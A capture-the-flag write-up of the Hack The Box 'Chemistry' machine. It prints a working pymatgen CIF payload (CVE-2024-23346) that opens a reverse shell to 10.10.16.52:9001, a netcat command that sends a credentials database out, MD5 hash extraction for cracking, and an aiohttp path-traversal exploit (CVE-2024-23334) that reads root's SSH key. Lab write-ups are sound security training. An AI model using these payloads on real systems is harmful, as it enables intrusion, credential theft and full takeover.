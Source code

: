 ![Chemistry](Chemistry_images/pwned.png)

# User flag

Initial nmap scan reveals just two ports. SSH on 22 and a werkzeug server on port 5000.

![nmap](Chemistry_images/nmap.png)

First glance over the website provides me with an unknown to me file type. A CIF file.
I will do some research to see what exactly is a CIF file, and how it can useful for me.

After some searching, I stumbled upon a CVE numbered as 2024-23346.

https://nvd.nist.gov/vuln/detail/CVE-2024-23346
https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346

![chemhome](Chemistry_images/chemhome.png)

I'll register and login as `test1:test1`

![dashboard](Chemistry_images/dashboard.png)

I can grab the example file here. It'll help me structure the payload for a reverse shell.

```
#Example file

data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```
And this is my payload:

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.16.52/9001 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

![shell](Chemistry_images/shell.png)

It worked! I can now proceed and look through the files. I'll look for a database file, hoping to grab some credentials and secure an SSH connection.

In the instance directory, I found a database file. I'll send it over to my machine with netcat.

```
Chemistry-machine: cat instance/database.db | nc (IP) (PORT)

My-machine nc -lp (PORT) < database.db
```

Note: There is no indication nor any sign that the transfer was complete. Leave the connection ongoing for approx. 3 minutes, even if it seems like it hung up and then feel free to close it.

![succesful](Chemistry_images/succesful.png)

There are a lot of users in the database file. I'll grab the first 14, since every account below that seems to be user-made(Other HTB players).

I'll save the file as users.txt, then I'll extract only the hashes using awk and I'll save them into creds.txt.

```
awk -F'|' '{print$3}' users.txt > hashes.txt
```

During my recon on the box after getting the shell, I saw this while reading through the app.py file.

```
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        user = User.query.filter_by(username=username).first()
        if user and user.password == hashlib.md5(password.encode()).hexdigest():
            login_user(user)
            return redirect(url_for('dashboard'))
        flash('Invalid credentials')
    return render_template('login.html')
```



Since the application uses MD5 hashing for passwords, cracking them with Hashcat is trivial. MD5 has been deprecated for security purposes due to its weaknesses, making this an easy attack vector.

![cracked](Chemistry_images/cracked.png)

I've got passwords for users rosa, carlos, peter and victoria. However, only rosa exists on  the machine. This can be checked right after receiving back the reverse shell.

![rights](Chemistry_images/rights.png)

There is also no mention of any blockades or blacklists in the config file of ssh. I'll try to SSH into the box as rosa.

![user](Chemistry_images/user.png)

# Privilege escalation

I'll check for active ports using ss with the flags -tulnp.

![check](Chemistry_images/check.png)

The service running on port 8080 interests me. I'll check what is running there via curl.

```
curl localhost:8080 --head
```

![head](Chemistry_images/head.png)

I searched for exploits for this version of aiohttp, and found one rather quickly. Im going to use CVE-2024-23334 in order to find something that'll allow me to gain root access to the box.

https://github.com/wizarddos/CVE-2024-23334

I cloned this repo onto my box and started up a python server, so that I could download exploit.py onto the chemistry machine via wget.

```
python3 exploit.py -u http://127.0.0.1:8080/ -f /root/.ssh/authorized_keys -d assets
```

![exploi](Chemistry_images/exploit.png)

Perfect! This private key will allow me to SSH into the box as root!
I'll copy the entire key into a file on my box.
```
echo 'key' > keyfile.pem
```

Before trying to connect, however, I'll use the command 'chmod' with parameter '600' on the keyfile, because SSH does not like keys with loose permissions.

![root](Chemistry_images/root.png)

Rooted!
